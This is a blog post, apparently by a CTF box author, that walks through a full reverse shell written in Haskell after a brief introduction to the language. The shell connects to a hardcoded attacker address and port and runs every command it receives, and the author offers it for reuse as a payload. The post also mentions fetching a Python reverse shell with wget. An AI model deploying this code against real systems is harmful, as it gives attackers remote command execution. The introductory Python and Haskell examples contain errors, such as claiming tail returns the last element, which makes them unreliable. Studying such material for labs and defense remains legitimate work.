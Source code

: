 ```yaml
---
layout: page
title: "Writing A Reverse Shell In Haskell"
permalink: /Writing-A-Reverse-Shell-In-Haskell/
categories: haskell
---
```


While I was developing a vulnerable box for the TryHackMe teaching platform, I wrote a small Flask app that accepts a Haskell file upload and compiles/runs it. This was intended to be abused by attackers in order to get an initial foothold through running a Haskell program and then escalate to root. Like any good box maker I had to test it and make sure it was solvable. My initial solution to the foothold was a short Haskell program that uses the System.Process library in order to call system functions. Since redirection was really janky I couldn’t do a lot of things, so my workaround was to wget a Python reverse shell and then run it. This worked, but I thought “Surely someone has written a reverse shell in this language”. Much to my surprise, Google turned up empty. Original thought isn’t dead!

I attribute this to a few things: Haskell is a somewhat niche language, it’s not very easy to pick up, and it’s pretty limited in its applications for offensive security. Ironically, Haskell is an incredibly safe language because of all the type checking, lack of side effects, and how easy it makes proving functions! Anyways, I figured that since no one had done it before, I ought to write a reverse shell. I’m currently completing my OSCP and have been using PayloadAllTheThings like a zealot, so this seems like my chance to give back in a very niche fashion if for some reason someone needs a Haskell reverse shell.

# A Brief Introduction To Haskell (Skip this if you just wanna see the shellz)
Here’s a few cool things about Haskell:

* Haskell is statically typed, so if we assign a variable to an integer the compiler knows it’s going to stay an integer
* Functions have no side effects. The only thing that a function can do is compute something and return its value.
* Haskell is lazy. This means it won’t compute values until we actually ask for them. This comes in handy if we, say, want to work with an infinitely long list. We can declare an infinitely long list, and if we try to access list indexes very far into the list, Haskell won’t compute that until we ask for it.
* Haskell is super concise. It’s very easy to write very short, incredibly powerful one liners

Here’s a brief comparison between Haskell and Python, as many people have experience with Python. The problem will be to reverse a list and return a list containing the new first and last index. For example, if the input is [1,2,3,4], the output is [4,1]. We’ll assume “x” is our variable equal to the input.

Python: 

~~~python
x.reverse[0].append(x.reverse[-1])
~~~
If you’re familiar with List objects in Python, you know that what we’re doing behind the scenes is accessing the reverse, getitem (to access the index), and append methods of the List class in order to perform this operation.

Haskell:

~~~haskell
(head (reverse x)):(tail (reverse x)):[]
~~~
In Haskell, we’re calling the head function to get the first item, the reverse function to give us a reversed list, the tail function to get the last item, and then appending it using the “:” list constructor onto an empty list. We did all of this just with functions, how cool is that!

Additionally, we could tell Haskell what we want to input/output from our function. So in this case, we’re inputting a list of integers and returning a list of integers. So we could tell Haskell:
~~~haskell
funcName :: [Int] -> [Int]
~~~
If we try to pass in a string or a list of strings, then Haskell will throw an error at compilation. This can also be abstracted, so if we wanted to take a list of something and return a single something we could declare:
~~~haskell
funcName :: [a] -> a
~~~
Where “a” is our generic data type. Contrast this to Python, where we can take the example above and nothing prevents us from passing in a number. But when the function tries to run, it’ll try to call the reverse method of the Integer class, which will fail because there isn’t one. With Haskell, we know what we’re getting.

This is just a short description of Haskell, it’s an incredibly powerful language and I suggest that you dig deeper into it.

# Writing Our Reverse Shell
Anyways, now that you’ve had a brief introduction to how Haskell works, let’s get into the reverse shell. We’ll dissect it a few lines at a time.

~~~haskell
import Network.Socket hiding (send, sendTo, recv, recvFrom)
import Network.Socket.ByteString (send, recv)
import qualified Data.ByteString.Char8 as B8
import System.Process
import System.IO
import Control.Exception

main = do
        client "192.168.126.128" 1234
~~~

Pretty self explanatory. This is just our imports and our main function call, similar to Java/C/etc.

~~~haskell
client :: String -> Int -> IO ()
client host port = withSocketsDo $ do
                addrInfo <- getAddrInfo Nothing (Just host) (Just $ show port)
                let serverAddr = head addrInfo
~~~

This is the start function that we call in main. I’ve pulled a short snippet because I want to address a few Haskell syntax things.

First, at a high level, what we’re doing here is constructing the addrInfo data type that we need to grab information from to pass to a later function.

Why do some lines have a <- and some have a “let x = y”? The <- operator is used for IO actions in this case. Essentially, it will actually perform the IO operation and then bind it to the variable, performing a monadic binding and let us work with that variable differently. The “let =” operator binds whatever the value is to a variable literally.

The $ operator is used for function application. For (Just $ show port), “Just” is a data type that lets us say “The result of this function MAY BE this, but it also MAY BE Nothing”. The “show” function takes a value and outputs that value as a string. If we had “(Just show port)”, then that could be interpreted as us trying to declare “show” as a variable of the “Maybe” type (of which Just is a subtype). But that’s not what we want, we want to apply Just to the result of “show port”.

~~~haskell
sock <- socket (addrFamily serverAddr) Stream defaultProtocol
connect sock (addrAddress serverAddr)
(_, Just hout, _, _) <- createProcess (proc "whoami" []) {std_out = CreatePipe}
resultOut <- hGetContents hout
let resultMsg = B8.pack resultOut
send sock resultMsg
msgSender sock
close sock
~~~

Now the rest of this function. We’ll pass in the first item of our addrInfo data type, serverAddr, cast as an addrFamily data type. Haskell will detect the protocol used for us, in this case TCP. This creates the socket that we’re going to pass around for the rest of this program. Then, we’ll call the connect function and pass in the socket and server address.

Next is the meat and potatoes of the command execution, we call createProcess and pass in “whoami” as our process, creating a pipe for standard out. I used whoami as it works on both Linux and Windows. If you’re curious about the underscores in (_, Just hout, _, _) those essentially mean that we don’t care what they are because we’re not going to use them, so we don’t need to assign them to a variable. If we wanted to use them all they would be stdin, stdout, stderr, and a handle to the process (in that order). Then we can get the results of our command using the IO operation hGetContents and use ByteString to pack them into a network friendly form. Then we’ll send the result of that command, so the user on the receiving end knows who they are, and call the function that’s going to do the heavy lifting.

~~~haskell
msgSender :: Socket -> IO ()
msgSender sock = do
  let msg = B8.pack ""
  send sock msg
  rMsg <- recv sock 2048
  let split_cmd = words (filter (/= '\n') (B8.unpack rMsg))
  print split_cmd
  result <- try' $ createProcess (proc (head split_cmd) (tail split_cmd)) {std_out = CreatePipe, std_err = CreatePipe}
  case result of 
    Left ex                            -> sendError sock ex
    Right (_, Just hout, Just herr, _) -> sendResult sock (Nothing, Just hout, Just herr, Nothing)
  msgSender sock
~~~

If you’ve made it this far, I promise that we’re almost done with all the convoluted Haskell stuff! This function is going to infinitely loop in order to call commands, return their output, and then wait again. The program receives a message from the user, removes all new lines via filter, and uses the words function to create a list split on every space. We have to do this as createProcess takes a list of arguments to the command. Then, we’ll run our program the same as before, but this time we’ll also create an std_err pipe as we want to know when things go wrong. You’ll also notice the “try’” function call with the $ function applicator. 

~~~haskell
try' :: IO a -> IO (Either IOException a)
try' = try
~~~

Adding an apostrophe to a function name is the standard way to denote a modified version of an existing function in Haskell. This takes the existing try function, but specifies it so that it takes a generic IO type in and returns an “Either” data type, which allows us to handle exceptions. This is necessary because while a command returning an error isn’t a problem, if we try to run a non-existent command then the shell would just crash.

We can then use a case statement for error handling.In other languages this would be a switch statement or a series of if statements. Our try function will return “Left” if the command had an exception, and “Right” if it succeeded. So if it fails, we’ll send the error message back to the user. If it didn’t fail, we’ll send back the output and any error messages that were a product of the command. Then we call the function again and loop back. 

~~~haskell
sendError sock err = do
  let errorMsg = B8.pack ("Error:" ++ show err ++ "\n")
  send sock errorMsg
  
sendResult sock (_, Just hout, Just herr, _) = do
    resultOut <- hGetContents hout
    errorOut <- hGetContents herr
    let resultMsg = B8.pack resultOut
    let errorMsg = B8.pack errorOut
    send sock resultMsg
    send sock errorMsg
~~~

The last component are the functions that will send a system error back to the user if the command causes an exception, and the function that sends back the results of the command. These are pretty self explanatory.

And that’s how you implement a reverse shell in Haskell! Hopefully you learned something new from this post. If you’ve never used a functional programming language before, I highly recommend that you do a bit of reading on them. Personally I wasn’t super fluent with Python’s Lambda functions or list comprehensions, but after learning some Haskell I have no problem writing them on the fly. There’s no feeling of power quite like writing a 500 character one liner to process a data set that would’ve taken 20 characters in Excel.
